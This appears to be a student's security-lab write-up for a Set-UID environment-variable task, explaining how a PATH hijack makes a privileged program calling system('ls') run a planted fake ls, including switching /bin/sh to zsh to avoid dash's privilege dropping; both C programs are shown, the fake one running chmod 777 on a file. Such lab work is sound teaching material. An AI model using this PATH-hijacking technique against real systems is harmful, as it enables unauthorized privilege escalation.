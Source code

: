 ### **Task 6**

- Because the a SET-UID program runs with its owner's privileges, a user running the program can manipulate the program's EVs to its favor. In the case given, the program executes the command 'ls' by calling the function system. We can manipulate the EVs of the program to trick it into calling another version of ls
- Only obstacle is that the calling system will ultimately lead to a call to /bin/dash, which has countermeasures for this situation, lowering the permissions of the process to the caller's permissions. For this matter, and in order to be able to exploit the situation above, we will change the shell program called to another one (/bin/zsh)
- After appending /home/seed to the PATH environment variable, we proceeded to create another version of ls in that directory, that made an operation only available to root
- Lastly, we compiled the program given and made it into a SET-UID program
- When we ran the program, instead of a list of files in a directory, we saw the message "BOO!" printed on the screen and the permissions of an 'important_file' changed, meaning our version of ls was the one executed. This demonstrates the power of changing EVs

**CODE OF THE PROGRAM TO RUN**

    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        system("ls");
        return 0;
    }

**CODE OF THE NEW LS CREATED IN /home/seed**

    #include <stdio.h>
    #include <stdlib.h>

    int main() {

        printf("BOO!\n");
        system("chmod 777 /home/seed/Documents/important_file");

        return 0;
    }

Creating new ls | Executing program given
:---------:|:---------:
![Terminal print of task 6](img/Week4/Task6-terminal-run.png) | ![Terminal print of task 6](img/Week4/Task6-terminal-ls.png)
